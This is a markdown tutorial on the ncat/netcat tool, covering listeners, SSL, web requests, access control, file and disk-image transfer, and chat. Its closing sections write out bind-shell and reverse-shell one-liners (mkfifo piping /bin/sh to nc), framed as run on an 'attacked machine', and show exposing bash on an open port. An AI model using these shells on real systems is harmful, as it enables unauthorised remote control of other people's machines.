


<!--
.. title: ncat Tutorial
.. slug: index
.. date: 2018-07-06 13:54:00 UTC+02:00
.. tags: 
.. category: 
.. link: 
.. description: 
.. type: text
-->

## Introduction

Ncat is a general-purpose command-line tool for reading, writing, 
redirecting, and encrypting data across a network. It aims to be 
the network Swiss Army knife, handling a wide variety of 
security testing and administration tasks. Ncat is suitable for 
interactive use or as a network-connected back end for other 
tools. 
One of the main advantages of ncat is that it is installed by 
default on many *NIX systems.

Let's see some usage examples:

```sh
ncat 192.168.1.105 3333 
# connects ncat in "connect mode, to the mentioned host and port
```

With the next command we will create a server 
with the "-l" option which is equivalent to "--listen" option, 
if we omit the host address netcat will build the server on all 
the network interfaces, while if we omit the port number, it 
will use the default port number which is 31337, remember that 
only root users can bind to a port number lower than 1024. 
By default ncat uses TCP, but it is possible to use UDP, with the 
"-u" flag or "--udp" option. When using a TCP server, the server 
will send the packets to all client, while if we use the UDP 
option, we'll send data only to the first connected client, 
since in UDP, there is no list of "connected" clients concept

```sh 
 # ncat -l 192.168.1.105 3333 
```

Let's see some variations on this:

```sh
ncat -l -u 192.168.1.105 3333 
 # in this case we create a UDP 
 # server
```

```sh
ncat -l -u -6 192.168.1.105 3333 
 # in this case we create a UDP 
 # IPv6 server
```

```sh
ncat -l -v 192.168.1.105 3333 
 # in this case we create a server 
 # in the "verbose" mode, through the "-v" flag
```

```sh
ncat -nlvp localhost 8080 
 # in this case we create a server in 
 # the "verbose" mode, through the "-v" flag, and with the "-n" 
 # option to not resolve the hostnames via dns of the connected 
 # clients IP
```

### Usage as a Web Client

```sh
ncat -C scanme.nmap.org 80 
 # in this case we use ncat as a web 
 # browser, since we request tcp data to the specified address on 
 # the port 80, and we use "-C" to convert CLRF chacters to actual 
 # newlines; we need to remember that we must press "Enter" twice 
 # to send the request.
```

Let's see some examples of request:

* In the case of HTTP/1.0
```http
GET /fileName HTTP/1.0
```
* In the case of HTTP/1.1
```http
GET /fileName HTTP/1.1
Host: nomeHost
```
we have to remember that HTTP/1.1 supports virtual hosts, so 
even need to specify to which we are connecting to

to be able to connect to HTTPS websites we can execute:

```sh
ncat -C --ssl www.google.it 443 
 # mi connetto ad un webserver 
 # sulla porta 443
```

### Web Server

```sh
ncat -l localhost 8080 < hello.http 
 # in this case we create a 
 # web server, on the port 8080, where "hello.http" is the file 
 # serving the html page, in the format shown below:
 #  # HTTP/1.0 200 OK
 #  #  #  # <html>
 #  # <body>
 #  # <h1> CIAO </h1>
 #  # </body>
 #  # </html>
```

Basically we put the first mandatory string, used in the 
packet, to let the browser understand this is a web page, and 
then we can put whatever html code.

### Connection Brokering

One of ncat's most useful and unique abilities is called "
connection brokering". A listening ncat in broker mode accepts 
connections from multiple clients. In this mode, anything 
received from one of the clients is sent back out to all the 
others. In this way an Ncat broker acts like a network hub, 
broadcasting all traffic to everyone connected. We can activate 
broker mode with the "--broker" option, which must be combined 
with the "--listen", since it wouldn't make any sense for a client 
to be a broker. Brokering can be used even for:

* Transfer files through restrictive firewalls

* Multi-user chat rooms

### SSL

Ncat can encrypt its traffic using SSL. In connect mode, simply 
add the --ssl option. Here is the syntax for connecting to an 
HTTPS server:

```sh
ncat -C --ssl <server> 443 
 # act as a https client, or a generic 
 # SSL connection to a server and port, anyway if we get "Ncat: 
 # Input/output error." it means that the service on the specified 
 # socket doesn't talk SSL
```

```sh
ncat -C --ssl-verify <server> 443 
 # act as a https client, this 
 # option is used to require verification of the certificate and 
 # matching of the domain
```

```sh
 # ncat -C --ssl-verify --ssl-trustfile <custom-certs.pem> <server> 
443 
 # if we want to verify a connection to a server whose 
 # certificate isn't signed by one of the deafault certification 
 # authorities, use the --ssl-trustfile to name a file containing 
 # certificates you trust. The file must be in PEM format
```

  Running a command with --exec

```sh
ncat -l --exec "/bin/echo Hello." localhost 3333
 # this command 
 # builds an echo server, when an host is connected to this 
 # server, the "Hello" string is printed
```

```sh
ncat -l --sh-exec "echo `pwd`" localhost 3333 
 # this command as 
 # the previous builds a server on which we print message, but it 
 # executes from a "/bin/sh -c" shell, so that we don't have to 
 # provide the full path to commands if the commands are in "PATH"
 # and have sell facilities as pipelines and environment variable 
 # expansion. This server when connected to, sends back the name 
 # of its working directory
```

```sh
ncat -C --output smtp-debug.log mail.example.com 25 
 # this will 
 # transcript all the output to a file when connecting to the 
 # mentioned server and port
```

```sh
ncat -C --hex-dump ssh-hex.log scanme.nmap.org 22 
 # this gives us 
 # an hexadecimal log
```

an alternative could be sending a string to netcat, this can be 
done with:

```sh
 # printf "HEAD / HTTP/1.0\r\n\r\n" | nc 10.1.1.2 80
```

or if we want to save everything to a file we do:

```sh
 # printf "HEAD / HTTP/1.0\r\n\r\n" |nc 10.1.1.2 80 > myfile.txt
```

### Access Control

A listening Ncat may control which hosts connect to it with the 
--allow and --deny, let's make some examples:

```sh
ncat -l --allow 192.168.0.125 localhost 3333 
 # allows only the 
 # specified host to connect
```

```sh
 # ncat -l --allow trusted.example.com localhost 3333
```

```sh
ncat -l --deny 192.168.0.200 
 # allows all the hosts except the 
 # mentioned one
```

```sh
ncat -l --allow 192.168.0.0/24 
 # allows all the hosts on a 
 # specific subnet
```

```sh
ncat -l --allow 192.179.0.0-200 
 # allows all the specified IPs 
 # (in ncat we use the same notation used in NMAP)
```

we can even deny or allow hosts specified in a file with:

```sh
 # ncat -l --allowfile trusted-hosts.txt
```

```sh 
 # ncat -l --denyfile external-hosts.txt
```

we can even simply limit the maximum number of accepted 
connections with:

```sh
ncat -l --max-conns 5 
 # we set the maximum number of accepted 
 # connections to 5, the default is 100
```

Other useful options are:

```sh
--nodns 
 # tells ncat to not resolve IPs into domain names, so it 
 # will show only IPs
```

```sh
--send-only and --recv-only 
 #are options used to make a one-way 
 # communication, in order to be sure to not send anything to 
 # another IP or to not receive anything from an IP
```

### File Transfers

We can transfer files in various modes, let's see some case.


####  File Transfer 1: Receiver Listening

```sh
 # host2$ ncat -l > outputFile
 # host1$ ncat --send-only host2 < inputFile
```

####  File Transfer 2: Seder Listening

```sh
 # host1$ ncat -l --send-only < inputFile
 # host2$ ncat host1 > outputFile
```

We have to remember that the order of the commands, is important, 
the listener must be started first, since if this doesn't happen 
the client cannot connect to anything.

####  File Transfer 3: Sender Listening (with bare minimum nc)

```sh
 # hostreceiver$ nc -l 3333 > nome_del_nuovo_file_in_output
 # hostsender$ nc -N hostreceiver 3333 < nome_file_da_trasferire
```

####  File Transfer 4: Using an Intermediary (brokering example)

```sh
 # host3$ ncat -l --broker
 # host2$ ncat host3 > outputFile
 # host1$ ncat --send-only host3 < inputFile
```

### File Transfer:  Other Examples 

```sh
 # host2$ ncat -l | tar xzv 
 # host1$ tar czv <files> | ncat --send-only host2
```

```sh
 # host2$ ncat -l > host1-hda.image 
 # host1$ ncat --send-only host2 < /dev/hda
```

```sh
 # host2$ ncat -l | bzip2 -d > host1-hda.image 
 # host1$ cat /dev/hda | bzip2 | ncat --send-only host2
```

### Chat

We can set up, a one-on-one chat with a simple

```sh
 # host1$ ncat -l
 # host2$ ncat host1
```

but this is useful only for two clients, when, instead we want to 
build a multi-user chat, it is useful to use the "--chat" option, 
which lets us distinguish between users, and automatically 
enables "brokering" so a server will execute:

```sh
 # host1$ ncat -l --chat
 # host2$ ncat host1
 # host3$ ncat host1
 # host4$ ncat host1
```

in this case, "host1" acts as a server, and the other are the 
clients.

### Persistant (TCP connections) Web Server

To Keep simultaneous and multiple connections with TCP protocol 
we can use:

```sh
ncat -lk -p 3333 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; cat hello.http" 
 # in this case we are working as a persistent web 
 # server, the "-k" stands for "keep open", and indeed it is even 
 # available with "--keep-open"
```

If instead we want to use multiple connections with UDP, we can 
do:

```sh
ncat -l 3333 --udp --sh-exec "cat ciao.txt" 
 # in this case we 
 # allow multiple connections with the UDP protocol
```

### Remote Shell

```sh
ncat --exec "/bin/bash" -l 8081 --keep-open 
 # Bind to TCP port 
 # 8081 and attach /bin/bash for the world to access freely
```

```sh
ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open 
 # Bind a shell to TCP port 8081, limit access to 
 # hosts on a local network, and limit the maximum number of 
 # simultaneous connections to 3
```

### Bind Shell with minimal Netcat (nc without --exec or -e)



Bind shell is a common scenario, we can think about a classical "
ssh-like" session when we think about bind shells. On the 
attacked machine (the one on which we would like to talk) we 
should execute:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 3333 > /tmp/f 
 # keeps an opened port, in this case "3333" to 
 # execute commands from a remote machine
```

on the attacking machine (the one from where we will issue 
commands) instead we execute:

```sh
nc 127.0.0.1 3333
```

Bind Shell and Reverse Shell can be more elegant by using ssl, in 
order to not let other decrypt the traffic.


### Reverse Shell with minimal Netcat (nc without --exec or -e)



On the attacking machine (which could be a VPS) we execute:

```sh
nc -nlvp 3333 
 # this is the local machine on which we keep a 
 # port opened to issue commands and view the output
```

On the attacked machine we have to issue:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 127.0.0.1 3333 > /tmp/f 
 # this has to be issued on the attacked machine
```

now from the attacking machine we can issue commands and see output.


### Other Ncat Things

For all other Ncat things, see "man ncat", to see a complete list 
of flags and options, especially the part about "Examples".

